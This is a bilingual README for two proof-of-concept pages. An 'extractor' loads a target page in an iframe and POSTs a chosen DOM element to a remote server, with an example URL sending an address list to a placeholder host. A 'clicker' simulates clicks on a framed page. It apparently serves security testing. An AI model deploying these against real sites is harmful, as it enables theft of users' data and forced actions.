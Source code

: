 # 📄 README – PoC Extractor Page

## 🇫🇷 Français

### Description
Cette page HTML est un générateur de **Proof of Concept (PoC)**.  
Elle permet de charger une page cible dans une iframe, d’extraire un élément précis du DOM, puis d’envoyer cet élément vers un serveur de ton choix.

---

### Paramètres disponibles
- **`path`** : définit la page à charger dans l’iframe (`/path`).
- **`extract`** : définit l’élément à extraire (via son `id`).
- **`url`** : définit l’adresse de ton serveur pour recevoir les données (⚠️ remplacer par ton propre serveur).

---

### Fonctionnement
1. La page lit les paramètres `path`, `extract`, `url` dans l’URL.
2. Elle charge la page `/path` dans une iframe.
3. Après 10 secondes, elle extrait l’élément ayant `id=extract`.
4. Elle envoie le contenu HTML de cet élément vers `url` via une requête HTTP `POST` en JSON.

---

### Exemple
```
http://ga8.github.io/web-client/extractDataPage.html?path=addresses&extract=adresslist&url=https://monserveur.exemple/data
```

---

## 🇬🇧 English

### Description
This HTML page is a **Proof of Concept (PoC) generator**.  
It loads a target page inside an iframe, extracts a specific DOM element, and sends it to your own server.

---

### Parameters
- **`path`**: defines the page to load in the iframe (`/path`).
- **`extract`**: defines which element to extract (by its `id`).
- **`url`**: defines the server address where the extracted data will be sent (⚠️ replace with your own).

---

### Workflow
1. The page reads the `path`, `extract`, `url` query parameters.
2. It loads `/path` in the iframe.
3. After 10 seconds, it extracts the element with `id=extract`.
4. It sends the HTML content to the `url` server using a JSON `POST`.

---

### Example
```
http://ga8.github.io/web-client/extractDataPage.html?path=addresses&extract=adresslist&url=https://monserveur.exemple/data
```

---

# 📄 README – PoC Clicker Page

## 🇫🇷 Français

### Description
Cette page HTML est un générateur de **PoC d’interaction**.  
Elle permet de charger une page cible dans une iframe, puis de **simuler un clic** sur un élément défini par son attribut `name`.

---

### Paramètres disponibles
- **`path`** : définit la page à charger dans l’iframe (`/path`).
- **`clickon`** : définit l’élément sur lequel cliquer (via son `name`).

---

### Fonctionnement
1. La page lit les paramètres `path` et `clickon` dans l’URL.
2. Elle charge `/path` dans une iframe.
3. Après 15 secondes (pour laisser la page se charger), le script recherche l’élément ayant le name qui correspond a la valeur renseigné dans le paramètre `clickon.
4. Cet élément est cliqué.

---

### Exemple
```
https://ga8.github.io/web-client/clickPage.html?path=home&clickon=subscribe
```

---

## 🇬🇧 English

### Description
This HTML page is an **interaction PoC generator**.  
It loads a target page inside an iframe and automatically **simulates a click** on an element defined by its `name` attribute.

---

### Parameters
- **`path`**: defines the page to load in the iframe (`/path`).
- **`clickon`**: defines which element to click (by its `name`).

---

### Workflow
1. The page reads the `path` and `clickon` query parameters.
2. It loads `/path` in the iframe.
3. After 15 seconds, the script looks for the element with the name corresponding to the value filled in parameter `clickon`.
4. That element is clicked.

---

### Example
```
https://ga8.github.io/web-client/clickPage.html?path=home&clickon=subscribe
```

